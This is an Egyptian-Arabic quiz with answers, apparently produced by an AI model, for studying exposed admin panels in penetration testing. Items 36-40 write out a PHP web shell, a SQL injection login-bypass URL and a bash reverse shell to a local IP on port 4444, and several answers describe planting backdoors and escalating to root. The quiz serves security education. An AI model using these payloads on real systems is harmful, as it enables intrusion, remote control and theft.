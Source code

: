 إليك الأسئلة مع الإجابات مباشرة بعد كل سؤال، مع زيادة أسئلة الفهم العميق كما طلبت، وفي جزء الخلاصة السؤال هيكون "قولي الخلاصة بتاعت الجزء":

---

### **أسئلة إكمال الفراغات**
1. Exposed Admin Panels يعني لوحات تحكم الأدمن متاحة بدون ______.  
   **حماية كافية**

2. المهاجم بيقدر يوصل للوحة الأدمن لو المسار بتاعها واضح زي ______.  
   **/admin**

3. أداة ______ بتساعدك تبحث عن مسارات اللوحات المكشوفة زي `/dashboard`.  
   **Gobuster**

4. لو دخلت اللوحة، ممكن ترفع ملف ______ عشان تاخد تحكم في السيرفر.  
   **Shell.php**

5. لو وصلت لـ Shell من اللوحة، أمر ______ بيوريك إذا كنت Root أو لا.  
   **id**

---

### **أسئلة صح وغلط**
6. Exposed Admin Panels بتكون خطيرة حتى لو فيها تسجيل دخول قوي. (صح/غلط)  
   **غلط** - لو فيها حماية قوية زي 2FA، بتبقى أقل خطورة.

7. اللوحة المكشوفة بتسمح للمهاجم يضيف مستخدمين جدد لو وصلها. (صح/غلط)  
   **صح**

8. استخدام `curl -I` بيرجعلك كود 404 لو اللوحة موجودة ومفتوحة. (صح/غلط)  
   **غلط** - بيرجع 200 OK لو موجودة.

9. اللوحات المكشوفة مابتساعدش في تصعيد الصلاحيات للسيرفر. (صح/غلط)  
   **غلط** - بتساعد لو استغليتها صح.

10. في الـ Pentesting، لازم تسجل كل مسار لقيته في التقرير. (صح/غلط)  
    **صح**

---

### **أسئلة اختيار من متعدد**
11. إيه السبب الشائع إن اللوحة تكون مكشوفة؟  
    أ) مافيش تحديثات للموقع  
    ب) المسار واضح زي `/admin`  
    ج) استخدام متصفح قديم  
    د) غلط في الكود  
    **ب) المسار واضح زي `/admin`**

12. إيه الأداة اللي بتستخدمها عشان تفحص مسارات اللوحة تلقائيًا؟  
    أ) curl  
    ب) Nmap  
    ج) Dirb  
    د) Burp Suite  
    **ج) Dirb**

13. إيه اللي ممكن تعمله لو وصلت للوحة مكشوفة؟  
    أ) تضيف مستخدمين  
    ب) تسرق بيانات  
    ج) تزرع Backdoor  
    د) كل اللي فوق  
    **د) كل اللي فوق**

14. إيه اللي بيخلي اللوحة تكون ضعيفة لو فيها تسجيل دخول؟  
    أ) مافيش CAPTCHA أو 2FA  
    ب) استخدام كلمات سر قوية  
    ج) تحديث السيرفر  
    د) غلق المنافذ  
    **أ) مافيش CAPTCHA أو 2FA**

15. إيه الأمر اللي بيستخدم في الـ Shell عشان تتحقق من صلاحياتك؟  
    أ) whoami  
    ب) id  
    ج) sudo -l  
    د) uname -r  
    **ب) id**

---

### **أسئلة "لماذا" لتفسير المفاهيم**
16. ليه Exposed Admin Panels بتعتبر ثغرة أمنية؟  
    **لأنها بتدي وصول مباشر للتحكم في الموقع بدون حماية كافية.**

17. ليه المهاجم بيجرب مسارات زي `/admin` أو `/dashboard`؟  
    **عشان دي مسارات شائعة وكتير بتكون مكشوفة بسبب إعدادات ضعيفة.**

18. ليه اللوحة المكشوفة بتكون خطيرة حتى لو فيها تسجيل دخول؟  
    **لأن ممكن تتخترق بكلمات سر افتراضية أو ثغرات زي SQL Injection.**

19. ليه الـ Pentester بيستخدم أدوات زي Gobuster في البحث عن اللوحات؟  
    **عشان يلاقي المسارات المكشوفة بسرعة بدل ما يجرب يدويًا.**

20. ليه رفع Shell من اللوحة بيدي تحكم أكبر؟  
    **لأنه بيسمحلك تشغل أوامر على السيرفر وتصعد صلاحياتك.**

---

### **أسئلة ربط المفاهيم ببعضها**
21. إزاي تربط بين إعدادات ضعيفة وExposed Admin Panels؟  
    **الإعدادات الضعيفة بتخلي اللوحة متاحة للكل بدون حماية.**

22. إيه العلاقة بين Exposed Admin Panels وتصعيد الصلاحيات؟  
    **بتدخل اللوحة، ترفع Shell، وتستخدمه عشان تاخد Root أو System.**

23. إزاي Nmap بيساعدك في استغلال Exposed Admin Panels؟  
    **بيكشف الخدمات المفتوحة زي Apache اللي ممكن يكون فيها لوحة مكشوفة.**

24. إزاي SQL Injection بيساعدك تدخل لوحة مكشوفة؟  
    **بتستخدمها عشان تتخطى تسجيل الدخول وتوصل للتحكم مباشرة.**

25. إيه الرابط بين زرع Backdoor واللوحة المكشوفة؟  
    **بتزرع Backdoor من اللوحة عشان ترجع للنظام في أي وقت.**

---

### **أسئلة للفهم (عميقة)**
26. اشرح بكلماتك إيه اللي بيحصل لما تلاقي لوحة مكشوفة في موقع؟  
    **بتلاقي صفحة تحكم متاحة للكل، ممكن تدخلها وتتحكم في الموقع كله.**

27. إزاي اللوحة المكشوفة بتفرق عن ثغرة زي Directory Traversal من ناحية الهدف؟  
    **اللوحة بتديك تحكم مباشر في الموقع، بينما Directory Traversal بتركز على الوصول لملفات.**

28. لو لقيت `/admin` مفتوح بدون تسجيل دخول، إيه الخطوات اللي ممكن تعملها؟  
    **بتدور على Upload أو Settings، ترفع Shell، وتبدأ تستغل السيرفر.**

29. إزاي كلمات السر الافتراضية بتخلّي اللوحة ضعيفة؟  
    **لأنها زي `admin:admin` بتكون سهلة التخمين ومستخدمة كتير.**

30. ليه اللوحة المكشوفة بتكون "كنز" للـ Pentester؟  
    **لأنها بتديك وصول فوري للتحكم بدون مجهود كبير.**

31. اشرح إزاي الوصول للوحة بيفتح الباب لتصعيد صلاحيات؟  
    **بتلاقي مكان ترفع منه Shell، تشغل أوامر، وتصعد لـ Root لو فيه ثغرة.**

32. لو اللوحة فيها تسجيل دخول، إزاي تقدر تتخطاه في الـ Pentesting؟  
    **بتجرب كلمات سر افتراضية أو تستخدم SQL Injection عشان تدخل بدون بيانات صحيحة.**

33. إيه اللي بيحصل لو اللوحة متصلة بالسيرفر مباشرة؟  
    **بتقدر تتحكم في السيرفر كله وتاخد صلاحيات أعلى زي Root.**

34. اشرح الفرق بين استغلال لوحة مكشوفة بدون تسجيل وواحدة بتسجيل ضعيف؟  
    **بدون تسجيل بتدخل فورًا، بتسجيل ضعيف بتحتاج تكسر الحماية بكلمات سر أو ثغرات.**

35. إزاي المهاجم بيستفيد من زرع Backdoor بعد ما يدخل اللوحة؟  
    **بيخلّيه يرجع للنظام في أي وقت بدون ما يحتاج يخترق من الأول.**

---

### **أسئلة كتابة كود**
36. اكتب أمر curl عشان تختبر إذا كان `/admin` موجود ومفتوح.  
    **curl -I http://target.com/admin**

37. اكتب أمر Gobuster عشان تبحث عن مسارات لوحات مكشوفة (مع wordlist بسيط).  
    **gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt**

38. اكتب كود PHP بسيط ترفعه في اللوحة لو لقيت Upload.  
    **<?php system($_GET['cmd']); ?>**

39. اكتب رابط SQL Injection عشان تتخطى تسجيل دخول اللوحة.  
    **http://192.168.1.10/admin/login.php?user=admin' OR 1=1 -- &pass=anything**

40. اكتب أمر في الـ Shell عشان تاخد Shell تفاعلي من اللوحة.  
    **http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1**

---

### **أسئلة الخلاصة**
41. قولي الخلاصة بتاعت الجزء الأول ("إيه هو Exposed Admin Panels؟").  
    **"يعني زي ما تكون سايب مكتب المدير مفتوح في الشارع، أي حد يقدر يخش يتحكم في كل حاجة! Exposed Admin Panels يعني مكان التحكم بتاع الموقع متاح للكل زي السوق."**

42. قولي الخلاصة بتاعت الجزء التاني ("ليه المشكلة دي خطيرة؟").  
    **"اللوحة دي خطيرة لأنها زي مفتاح العربية، لو حد مسكه هياخد كل حاجة! المهاجم يلاقيها مفتوحة، يخش يلعب في الموقع زي ما يكون بيته."**

43. قولي الخلاصة بتاعت الجزء التالت ("إزاي نستغلها في الـ Pentesting؟").  
    **"لما تلاقي اللوحة مكشوفة، زي ما تكون لقيت كنز في لعبة، بتستخدمه عشان تتحكم في كل حاجة وتبقى الكبير بتاع الماتش!"**

44. قولي الخلاصة بتاعت الجزء الرابع ("خطوات عملية للاستغلال في Pentesting").  
    **"الخطوات دي زي ما تكون لقيت مكتب المدير مفتوح، خشيت، لعبته فيه، وطلعت الكبير بتاع الحتة! اللوحة المكشوفة دي طريقك للفوز بسهولة."**

45. قولي الخلاصة النهائية بتاعت النص كله.  
    **"Exposed Admin Panels هي ثغرة كبيرة لأنها بتديك وصول مباشر للتحكم في الموقع. في الـ Pentesting، دور عليها بـ curl أو Gobuster، استغلها عشان تدخل، ترفع Shell، أو تاخد صلاحيات أعلى، ووري العميل إن نظامه زي بيت بدون باب! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!"**

---

كده الأسئلة مغطية النص كامل، مع زيادة في أسئلة الفهم العميق (من 26 لـ 35) عشان تفهم كل التفاصيل بعمق. لو عايز أي زيادة أو تعديل، قول لي!